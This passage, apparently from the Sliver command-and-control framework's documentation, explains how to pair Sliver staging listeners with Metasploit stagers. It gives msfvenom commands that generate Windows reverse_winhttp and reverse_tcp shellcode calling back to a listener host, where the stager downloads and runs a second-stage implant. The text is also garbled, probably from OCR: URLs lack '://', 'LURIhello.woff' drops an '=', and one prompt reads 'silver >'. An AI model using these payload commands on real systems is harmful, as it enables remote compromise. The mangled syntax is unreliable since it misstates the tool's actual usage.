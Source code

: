 **Using Metasploit stagers is only supported on Windows.**

#### Generating an HTTP stager
If you want to use [stagers generated by the Metasploit Framework with Sliver](https/www.rapid7.com/blog/post/2022/09/16/metasploit-weekly-wrap-up-176/) (using `msfconsole` or `msfvenom`), you will need to pass the additional `--prepend-size` flag to `stage-listener`, like this:

```
sliver > stage-listener --url http/192.168.122.1:1234 --profile win-shellcode --prepend-size
```

This will prepend the size of the payload to the final binary sent to the stager, as required by Metasploit's `custom` payloads.

Sliver staging listeners only accept `tcp/`, `http/` and `https/` schemes for the `--url` flag. The format for this flag is `scheme/IPORT`. If no value is specified for `PORT`, an error will be thrown out.

Either `msfconsole` or `msfvenom` can be used directly to generate stager shellcodes or binaries with the `custom` payload type:

```
msfvenom --payload windows/x64/custom/reverse_winhttp LHOST=192.168.122.1 LPORT=1234 LURIhello.woff --format raw --out /tmp/stager.bin
```

**Remark**: At the moment, the `custom/reverse_http` payload is not compatible with Sliver shellcodes (the stager crashes). However, one can use the `custom/reverse_winhttp` payload instead.

Depending on the payload you choose, you can specify additional options, such as HTTP proxy settings. Use the `msfvenom` flag `--list-options` with a payload type or `show advanced` in `msfconsole`.

#### Generating a TCP stager
Use the `stage-listener` command to set up a listener that will send the binary to the stager:

```
silver > stage-listener --url tcp/192.168.122.1:1234 --profile win-shellcode --prepend-size
```

Notice that we are using the `tcp/` scheme because this is a TCP stager. The `--prepend-size` option is still necessary because we will be using Metasploit.

As above, either `msfconsole` or `msfvenom` can be used directly to generate stager shellcodes or binaries with the `custom` payload type. Here is an example using `msfvenom`:

```
# LHOST and LPORT should correspond to the --url parameter of your stage-listener command

msfvenom --payload windows/x64/custom/reverse_tcp LHOST=192.168.122.1 LPORT=1234 --format raw --out /tmp/stager.bin
```

## Custom Stagers

One thing to consider while writing or using a custom stager, especially for the HTTP protocol, is that the Sliver server will only serve stage 2 payloads on specifically defined URLs. Indeed, since the HTTP staging listener is reusing the regular HTTP listener, it follows the same [procedural HTTP protocol](/docs?name=HTTPS+C2).

